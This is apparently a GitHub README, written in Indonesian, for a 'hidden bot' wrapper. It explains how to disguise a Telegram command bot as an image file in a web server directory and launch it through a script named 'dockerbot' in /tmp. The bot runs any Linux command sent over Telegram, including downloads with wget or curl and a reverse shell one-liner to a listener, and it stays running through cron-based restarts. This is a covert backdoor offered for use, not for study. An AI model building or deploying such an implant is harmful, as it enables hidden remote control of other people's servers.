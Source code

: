 # hidden bot Wrapper Script


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>
📌 Konsep Wrapper Script dalam Eksekusi Bot Telegram
Wrapper Script adalah skrip perantara yang digunakan untuk menjalankan program atau skrip lain secara tidak langsung. Ini berguna untuk menyembunyikan, menyederhanakan, atau mengontrol eksekusi skrip utama.

Dalam kasus ini, kita memiliki:

Skrip utama (default.png) yang sebenarnya adalah bot Telegram, tetapi namanya disamarkan agar terlihat seperti file gambar.
Wrapper script (dockerbot), yang bertindak sebagai perantara untuk menjalankan default.png.

📂 Struktur File
```
/var/www/html/default.png  --> Skrip utama bot (disamarkan sebagai file gambar)
/tmp/img/dockerbot         --> Wrapper script untuk menjalankan default.png
```
📜 Isi Wrapper Script (dockerbot)
```
#!/bin/bash
/var/www/html/default.png
```

📌 Penjelasan:
```
#!/bin/bash → Menentukan bahwa skrip ini dijalankan menggunakan Bash.
/var/www/html/default.png → Memanggil skrip utama bot yang disamarkan sebagai file gambar.
Jadi, setiap kali dockerbot dijalankan, sebenarnya yang terjadi adalah default.png (yang merupakan bot Telegram) akan dieksekusi.
```
<br>
<br>
<br>
<br>


📌cara eksekusi
<br>
1️⃣ Buat file /tmp/img/dockerbot

Isi dengan:

```
#!/bin/bash
/sesuaikan/dengan/lokasi/botpng/default.png
```
2️⃣ Beri izin eksekusi
```
chmod 777 /tmp/img/dockerbot
```

3️⃣ menjalankan bot 

```
bash /tmp/img/dockerbot
```



apasaja yg bisa di jalankan di bot telegram

```
perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


🔥 Fitur systemd
✅ Monitoring bot setiap 5 menit menggunakan cronjob
✅ Jika bot mati, otomatis dijalankan ulang. otomatis
✅ Mengirim pesan saat bot mati (misalnya karena kill, CTRL+C, atau shutdown)

```
